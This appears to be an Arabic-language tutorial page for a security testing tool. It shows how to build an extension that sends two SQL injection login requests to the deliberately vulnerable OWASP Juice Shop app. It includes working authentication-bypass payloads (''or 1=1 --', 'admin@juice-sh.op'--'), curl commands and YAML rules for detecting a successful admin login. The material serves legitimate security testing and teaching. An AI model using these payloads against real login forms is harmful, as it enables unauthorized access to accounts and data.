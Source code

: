 [link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section
[link-send-headers]:        ../phase-send.md#working-with-the-host-header
[link-using-extension]:     ../using-extension.md
[link-app-examination]:     app-examination.md

[doc-send-phase]:           ../phase-send.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project

# إنشاء امتداد غير تعديلي

لن يقوم الامتداد الموصوف في هذا المستند بتعديل طلب أساسي وارد لحقن بعض البيانات فيه. بدلاً من ذلك، سيتم إرسال طلبين اختباريين محددين مسبقًا إلى المضيف الذي يتم تحديده في الطلب الأساسي. تحتوي هذه الطلبات الاختبارية على بيانات قد تؤدي إلى استغلال ثغرة SQLi في نموذج تسجيل دخول تطبيق الهدف ["OWASP Juice Shop"][link-juice-shop].

## الاستعدادات

يُنصح بشدة ب[التحقيق في سلوك تطبيق الهدف][link-app-examination] قبل إنشاء امتداد FAST.

## بناء الامتداد

أنشئ ملفًا يصف الامتداد (مثل، `non-mod-extension.yaml`)، واملأه بالأقسام المطلوبة:

1. [**قسم `meta-info`**][link-meta-info].

    إعداد وصف الثغرة التي سيحاول الامتداد كشفها.
    
    * عنوان الثغرة: `OWASP Juice Shop SQLi (امتداد غير تعديلي)`
    * وصف الثغرة: `عرض لثغرة SQLi في OWASP Juice Shop (تسجيل دخول الإدارة)`
    * نوع الثغرة: حقن SQL
    * مستوى تهديد الثغرة: مرتفع
    
    ينبغي أن يبدو قسم `meta-info` المقابل كما يلي:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (امتداد غير تعديلي)'
      - description: 'عرض لثغرة SQLi في OWASP Juice Shop (تسجيل دخول الإدارة)'
    ```
    
2. **قسم `send`، مرحلة [الإرسال][doc-send-phase]**

    هناك قيمتان يجب إرسالهما كقيم للمعلمة `email` إلى جانب أي قيمة للمعلمة `password` من أجل استغلال ثغرة حقن SQL في تطبيق الهدف:
    
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
    
    يمكنك صياغة طلبين اختباريين، كل منهما يحتوي
    
    * على المعلمة `email` مع إحدى القيم الموصوفة أعلاه، و
    * المعلمة `password` بقيمة اعتباطية.

    يكفي استخدام أحد هذه الطلبات لاختبار تطبيق الهدف الخاص بنا (OWASP Juice Shop).
    
    ومع ذلك، قد يكون وجود مجموعة من الطلبات الاختبارية المعدة مسبقًا مفيدًا عند إجراء اختبارات الأمان لتطبيق حقيقي: إذا لم يعد أحد الطلبات قادرًا على استغلال ثغرة بفضل التحديثات والتحسينات في التطبيق، فستكون هناك طلبات اختبارية أخرى متاحة قد تستغل الثغرة بسبب استخدام بيانات أخرى.

    يشبه الطلب الأول بالبيانات المذكورة أعلاه هذا الطلب:
    
    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"'\''or 1=1 --", "password":"12345"}'
    ```

    يبدو الطلب الثاني مشابهًا للأول:

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"admin@juice-sh.op'\''--", "password":"12345"}'
    ```

    أضف قسم `send` الذي يحتوي على وصف لهذين الطلبين الاختباريين:
    
    ```
    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'
    ``` 
    
    !!! info "ملاحظة حول رأس `Host`"
        يمكن الاستغناء عن رأس `Host` في هذه الطلبات لأنه لا يؤثر على استغلال هذه الثغرة المعينة في SQLi. سيقوم عقد FAST تلقائيًا بإضافة رأس `Host` المستخرج من طلبات أساسية واردة.
        
        اقرأ [هنا][link-send-headers] حول كيفية التعامل مع رؤوس الطلب في مرحلة الإرسال.

     3.  **قسم `detect`، مرحلة [الكشف][doc-detect-phase]**.
    
    تشير الشروط التالية إلى أن توثيق المستخدم بحقوق المسؤول كان ناجحًا:
    
    * وجود معلمة تعريف سلة الشراء بقيمة `1` في جسم الاستجابة. المعلمة بتنسيق JSON وينبغي أن تبدو كما يلي:
    
        ```
        "bid":1
        ```
    
    * وجود معلمة البريد الإلكتروني للمستخدم بقيمة `admin@juice-sh.op` في جسم الاستجابة. المعلمة بتنسيق JSON وينبغي أن تظهر كما يلي:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    أضف قسم `detect` الذي يتحقق مما إذا كان الهجوم ناجحًا وفقًا للشروط الموصوفة أعلاه.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "هروب الرموز الخاصة"
    تذكر أن تهرب الرموز الخاصة في السلاسل.

## ملف الامتداد

الآن يحتوي ملف `non-mod-extension.yaml` على مجموعة كاملة من الأقسام المطلوبة لتشغيل الامتداد. قائمة محتويات الملف معروضة أدناه:

??? info "non-mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (امتداد غير تعديلي)'
      - description: 'عرض لثغرة SQLi في OWASP Juice Shop (تسجيل دخول الإدارة)'

    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

## استخدام الامتداد

للحصول على معلومات مفصلة حول كيفية استخدام الامتداد المنشأ، اقرأ [هذا المستند][link-using-extension].
